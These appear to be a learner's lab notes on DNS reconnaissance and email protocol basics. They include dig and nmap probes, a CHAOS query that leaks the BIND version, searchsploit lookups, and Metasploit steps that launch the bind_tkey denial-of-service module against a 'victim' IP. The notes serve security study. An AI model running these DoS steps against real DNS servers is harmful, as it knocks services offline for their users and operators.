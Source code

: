 -------
//get info of domain
hosts google.co.uk

//find start of authority
dig google.co.uk SOA

//using own dns server in dig
dig @192.168.19.139 nsa.gov  //resolve nsa.gov using give IP

(@ means we are using the @ip as domain name server rather than
the default dns server)


//using nmap using UDP packets //will be slower
sudo nmap 192.168.19.139 -sU -p 53 (specifying exact port makes it faster)

Information leak using Chaos
-----------------------------
dig @192.168.19.139 chaos version.bind txt

result: version.bind --> "9.8.1"

//this info will be used in searchsploit
searchsploit bind

searchsploit isc bind

//now lets do DOS attack :)
msfconsole
search tkey
use 0 (where 0 is auxiliary/dos/dns/bind_tkey)
show info
set RHOSTS <victims ip> (eg 192.168.19.139)
run

//now do nmap
sudo nmap 192.168.19.139 -sU -p 53


Email
-----
mail is created at MUA and then sent to MTA via SMTP
from MTA it goes to MDA of another machine via SMTP
then from MDA to receipient MUA using IMAP/POP

MUA : mail user agent
MTA : mail transfer agent
MDA : mail delivery agent
SMTP: simple mail transfer protocol
IMAP: internet message access protocol
POP : post office protocol

Message headers: contain metadata about the journey
of the mail across various machines. contains info about
those machines

this message header can be accessed in gmail: three dots -> show original
